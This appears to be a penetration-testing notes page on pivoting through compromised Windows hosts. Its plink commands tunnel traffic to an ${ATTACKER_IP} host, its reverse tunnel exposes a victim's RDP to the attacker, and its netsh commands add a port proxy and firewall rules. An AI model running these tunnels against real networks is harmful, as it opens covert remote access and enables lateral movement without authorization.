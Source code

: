 # Port Forwarding with Windows Tools

SSH utilities can be found in `%systemdrive%\Windows\System32\OpenSSH`.
ssh.exe behaves as you'd expect.


## Plink

As we won't always have an openSSH client on windows hosts, it can be good to get an understanding of some alternatives.
PuTTY for the CLI.
It has similar features to openSSH, but without remote dynamic port forwarding.

If you are getting an error about algorithm choice when calling plink, consider getting a newer version from [here](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html).


### Local Port Forwarding

In the scenario where you have gained access to `SRV1` and you want to forward traffic from `SRV1` port 8000 to port 80 on your kali machine, you can do:

```
cmd.exe /c echo y | .\plink.exe -ssh -l ${ATTACKER_USER} -pw ${ATTACKER_PW} -L 8000:${ATTACKER_IP}:80 ${ATTACKER_IP} 
```

This way, if you later pivot to `SRV2` who cannot directly access your web server on your kali machine, you can call `${SRV1_IP}:${SRV1_PORT}` (port 8000 in this example),
to transfer files to `SRV2`.

### Remote Port Forwarding

assuming we have `plink.exe` available on the windows host, we can do remote port forwarding with:

```
cmd.exe /c echo y | .\plink.exe -ssh -l ${ATTACKER_USER} -pw ${ATTACKER_PW} -R 127.0.0.1:${LISTENING_PORT}:${EXTERNAL_IP}:${EXTERNAL_PORT} ${ATTACKER_IP} 
```


(note the pipe command which answers `y` to the question about keys. The second time you do it, leave out the piping).
This can also be used to expose RDP:

```
cmd.exe /c echo y | .\plink.exe -ssh -l ${ATTACKER_USER} -pw ${ATTACKER_PW} -R 127.0.0.1:${LISTENING_PORT}:127.0.0.1:3389 ${ATTACKER_IP} 
```

Now, you can do the following from `${ATTACKER_IP}`:

```
xfreerdp /u:${DOMAIN}\\${user} /p:${password} /cert:ignore /v:127.0.0.1:${LISTENING_PORT}
```
## Netsh

Native way of port forwarding from windows (requires admin permissions):
```
netsh interface portproxy add v4tov4 listenport=${OWNED_PORT0} listenaddress=${OWNED_IP0} connectport=${OWNED_PORT1} connectaddress=${OWNED_IP1}
```
If you ever need to add firewall rules to allow traffic to flow through a given port on Windows (also requires admin permissions):
```
netsh advfirewall firewall add rule name="port_forward_ssh_${OWNED_PORT0}" protocol=TCP dir=in localip=${OWNED_IP0} localport=${OWNED_PORT0} action=allow
```
